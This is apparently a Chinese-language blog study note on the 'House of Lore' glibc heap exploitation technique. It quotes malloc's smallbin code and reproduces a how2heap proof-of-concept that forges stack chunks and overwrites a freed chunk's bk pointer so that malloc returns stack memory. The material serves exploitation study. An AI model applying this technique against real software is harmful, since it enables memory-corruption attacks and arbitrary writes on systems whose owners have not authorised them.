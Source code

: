 ```yaml
---
title: house of lore
date: 2016-10-19 04:41:22
tags:
- heap
- exploit
categories:
- heap_exploit
---
```


house of lore，我认为是house of *利用方式中利用条件比较难满足的吧，个人觉得实际很难遇到这种情况。所以就简单记录一下，不想浪费太多时间在这。还有house of mind和house of prime就以后碰到相关的题再记录了，因为平时好像几乎没怎么碰到过。

## 利用条件

1. Two chunks are allocated and the first one is overflowable。
2. The second chunk is freed。
3. Another (potentially more) chunk, bigger than the second one, is allocated。
4. A new chunk with the same size of the second one is allocated。
5. Another chunk with the same size of the second one is allocated。

觉得这描述的很好，所以就无耻的照搬了~~~我用中文也是翻译一下，倒还不如用参考的英文描述。
<!-- more -->
## 利用详解

先看一下漏洞代码：
```c
void_t*
_int_malloc(mstate av, size_t bytes)
{
  [...]

  checked_request2size(bytes, nb);

  [...]

  if ((unsigned long)(nb) <= (unsigned long)(av->max_fast)) {
    [...]
  }

  [...]

  /*
    If a small request, check regular bin.  Since these "smallbins"
    hold one size each, no searching within bins is necessary.
    (For a large request, we need to wait until unsorted chunks are
    processed to find best fit. But for small ones, fits are exact
    anyway, so we can check now, which is faster.)
  */

  if (in_smallbin_range (nb))
    {
      idx = smallbin_index (nb);
      bin = bin_at (av, idx);

      if ((victim = last (bin)) != bin)
        {
          if (victim == 0) /* initialization check */
            malloc_consolidate (av);
          else
            {
              bck = victim->bk;                //!!!!!!!this is the point!!!!
	if (__glibc_unlikely (bck->fd != victim))    //attention the check!!!!!  (1)
                {
                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }
              set_inuse_bit_at_offset (victim, nb);
              bin->bk = bck;
              bck->fd = bin;

              if (av != &main_arena)
                victim->size |= NON_MAIN_ARENA;
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
            }
        }
    }
```
首先要执行这段代码malloc请求大小(经过转化，是internal size)要在smallbin范围内(largebin的对应代码已经修复，所以无法利用largebin了), 即在64到512字节间。
那么如果我们能控制victim->bk字段，将其改为栈上的地址(一般是栈上), 最后连续malloc两次，bk字段的指针将返回给用户(chunk2mem)。然后就能对相关内存进行任意写了(例如覆盖栈上返回地址)。

要注意的是上面有个检测(1)，以前好像是没有的，所以还需要设置相应的字段，不能简单的覆盖bk字段就行了。

## 利用举例

我还是拿另一份参考源代码来说明下。我觉得下面这个例子实在讲得很好，一看就懂，所以也就直接拿来用了。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


int main(int argc, char * argv[]){


  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};

  printf("\nWelcome to the House of Lore\n");
  printf("This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");
  printf("This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23\n\n");

  printf("Allocating the victim chunk\n");
  intptr_t *victim = malloc(100);     /*first malloc*/
  printf("Allocated the first small chunk on the heap at %p\n", victim);

  // victim-8 because we need to remove the header size in order to have the absolute address of the chunk
  intptr_t *victim_chunk = victim-2;

  printf("stack_buffer_1 at %p\n", (void*)stack_buffer_1);
  printf("stack_buffer_2 at %p\n", (void*)stack_buffer_2);

  printf("Create a fake chunk on the stack.");
  printf("Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corrupted"
         "in second to the last malloc, which putting stack address on smallbin list\n");
  stack_buffer_1[0] = 0;
  stack_buffer_1[1] = 0;
  stack_buffer_1[2] = victim_chunk;

  printf("Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 "
         "in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake "
         "chunk on stack");
  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
  
  printf("Allocating another chunk in order to avoid consolidating the top chunk with"
         "the small one during the free()\n");
  void *p5 = malloc(1000);    /*second malloc*/
  printf("Allocated the large chunk on the heap at %p\n", p5);


  printf("Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free((void*)victim);       /*free the first*/

  printf("\nIn the unsorted bin the victim's fwd and bk pointers are nil\n");
  printf("victim->fwd: %p\n", (void *)victim[0]);
  printf("victim->bk: %p\n\n", (void *)victim[1]);

  printf("Now performing a malloc that can't be handled by the UnsortedBin, nor the small bin\n");
  printf("This means that the chunk %p will be inserted in front of the SmallBin\n", victim);

  void *p2 = malloc(1200);  /*third malloc*/
  printf("The chunk that can't be handled by the unsorted bin, nor the SmallBin has been allocated to %p\n", p2);

  printf("The victim chunk has been sorted and its fwd and bk pointers updated\n");
  printf("victim->fwd: %p\n", (void *)victim[0]);
  printf("victim->bk: %p\n\n", (void *)victim[1]);

  //------------VULNERABILITY-----------

  printf("Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

  /*actually, we need a chunk to overwrite the bk field, but for convenience, 
  we directly change the value of bk field*/

  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

  //------------------------------------

  printf("Now allocating a chunk with size equal to the first one freed\n");
  printf("This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");

  void *p3 = malloc(100);   /*forth malloc*/


  printf("This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk\n");
  char *p4 = malloc(100);  /*fifth malloc*/
  printf("p4 = malloc(100)\n");

  printf("\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",
         stack_buffer_2[2]);

  printf("\np4 is %p and should be on the stack!\n", p4); // this chunk will be allocated on stack
}
```

我在上面标注了malloc的次数，其实最少得6次，上面只有5次，因为他直接改了bk字段的值, 没有overwrite。总体来说是下面的顺序：
1.malloc(n)---->2.malloc(n)---->3.malloc(n) ---->4.free(2)---->5.malloc(n+m)---->6.overflow chunk2---->7.malloc(n)---->8.malloc(n)。步骤3是为了防止步骤2的chunk和top chunk合并。步骤5是为了让chunk 2 link到相应的samllbin中。

上面代码中讲得非常清楚了。我只是将它记录一下，以备下次忘了能看看。那些malloc的请求大小只需要满足条件就行了，并不一定要像例子那样这么大。
另外需要注意的是free chunk时，该chunk首先link到unsorted bin中。然后下一次分配的大小如果比它大，那么将从top chunk上分配相应大小，而该chunk会被取下link到相应的bin中。如果比它小(相等则直接返回)，则从该chunk上切除相应大小，并返回相应chunk，剩下的成为last reminder chunk，还是存在unsorted bin中。

执行效果如下：
<img src="http://of38fq57s.bkt.clouddn.com/house-of-lore.PNG">

## 相关参考

[X86 EXPLOITATION 101: “HOUSE OF LORE” – PEOPLE AND TRADITIONS](https://gbmaster.wordpress.com/2015/07/16/x86-exploitation-101-house-of-lore-people-and-traditions/)
[how2heap/house_of_lore.c](https://github.com/shellphish/how2heap/blob/master/house_of_lore.c)



